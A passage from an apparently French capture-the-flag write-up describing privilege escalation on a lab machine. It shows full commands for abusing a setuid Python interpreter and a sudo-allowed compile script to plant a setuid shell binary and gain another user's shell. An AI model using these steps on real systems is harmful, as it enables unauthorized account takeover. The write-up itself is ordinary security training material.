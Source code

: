 Ma première idée est d'utiliser ce Python setuid pour nous ajouter à la connexion SSH :

```console
krishna@ck05:/tmp$ /usr/bin/python2.7
Python 2.7.17 (default, Nov  7 2019, 10:07:09) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(1002)
>>> open("/home/loopspell/.ssh/authorized_keys", "a").write("ssh-rsa AAAA---snip ---lmWnV7Ez8/h")
```

Malheureusement le compte semble demander un mot de passe quoi qu'il arrive...

Du coup, on va créer un binaire qui appelle `setuid` / `setgid` pour l'utilisateur et se servir de Python pour rajouter le flag sur ce binaire.

L'autorisation `sudo` sur le script de compilation va nous servir pour que le fichier compilé ait le bon owner à la création :

```console
krishna@ck05:/tmp$ cat loopshell.c 
#include <unistd.h>
#include <stdlib.h>

int main(void) {
        setreuid(1002, 1002);
        setregid(1002, 1002);
        system("/bin/bash");
        return 0;
}
krishna@ck05:/tmp$ sudo -u loopspell /home/loopspell/code_compiler.sh /tmp/loopshell.c
Code is being compiling ...
You can find your compiled code in /tmp/ directory.
krishna@ck05:/tmp$ /usr/bin/python2.7
Python 2.7.17 (default, Nov  7 2019, 10:07:09) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(1002)
>>> import stat
>>> os.chmod("/tmp/tmp.FVXHo1Cs1i", stat.S_ISUID|stat.S_IRWXU|stat.S_IRWXG|stat.S_IRWXO)
>>> 
krishna@ck05:/tmp$ ls -al tmp.FVXHo1Cs1i
-rwsrwxrwx 1 loopspell loopspell 8400 Apr 12 12:11 tmp.FVXHo1Cs1i
krishna@ck05:/tmp$ ./tmp.FVXHo1Cs1i
loopspell@ck05:/tmp$ id
uid=1002(loopspell) gid=1001(krishna) groups=1001(krishna)
```

## Désassemblé au Cutter

Alternativement on trouve dans le dossier de `loopspell` un binaire nommé `backup.txt`. A l'exécution le binaire ne semble qu'afficher le message *Bla* en boucle, mais si on ouvre le binaire avec `Cutter` on remarque une fonction nommée `backup` qui semble afficher un mot de passe :
